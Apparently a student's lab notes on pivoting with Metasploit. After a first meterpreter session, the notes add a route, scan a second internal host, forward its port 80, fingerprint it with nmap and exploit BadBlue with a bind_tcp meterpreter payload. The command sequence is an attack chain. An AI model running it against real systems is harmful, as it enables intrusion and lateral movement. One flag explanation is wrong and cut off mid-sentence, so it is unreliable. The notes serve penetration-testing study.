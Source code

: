 after exploiting victim 1 and get meterpreter 

- We can observe, there is only one network adapter and we have two machine IP addresses. But, we cannot access “Victim Machine 2” directly from the attacker’s machine.
- We will add a route and then we will run an auxiliary port scanner module on the second victim machine to discover a host and open ports.  
	- run autoroute -s 10.0.23.0/20 (first victim machine in meterpreter)
- run the port scanner on the second victim machine.
	- background
	- use auxiliary/scanner/portscan/tcp 
	- set RHOSTS 10.0.27.99 (second machine)
	- set PORTS 1-100 
	- exploit
- We have discovered port 80 on the pivot machine. Now, we will forward the remote port 80 to local port 1234 and grab the banner using Nmap
	- sessions -i 1 (change to )
	- ipconfig (check IP and Subnetmask)
	- portfwd add -l 1234 -p 80 -r 10.0.27.99(victim 2 ip) ( we are forwarding our kali machine(localhost) port 80 to remote  of victim 2 IP) 
- `portfwd add`: This is a command to add a port forwarding rule.
- `-l 1234`: It specifies the local port to listen on, in this case, port 1234 on the machine where the command is being executed.
- `-p 80`: It specifies the port on the local machine (the one executing the command) to forward the traffic to. In this case, it's port 80, which is often used for HTTP traffic.
- `-r 10.0.27.99`: This is the IP address to which the traffic will be forwarded. In your
	- portfwd list
- We have forwarded the port, now use Nmap to find the running application name and version.
	- don't close msfconsole
	- nmap -sV -sS -p 1234 localhost (we want to know what services running in victim 2 ip using our own kali port that we forwaded to 80  )
	- the remote port of victim2 is 80
	- the local port we specify for our 
	- we find vulnerable service and exploit then get mterpreter session
		- use exploit/windows/http/badblue_passthru 
		- set PAYLOAD windows/meterpreter/bind_tcp 
		- set LPORT 4433 (port 4444 already used from the first mterepter session)
		- set RHOSTS VICTIM 2 IP
		- exploit
		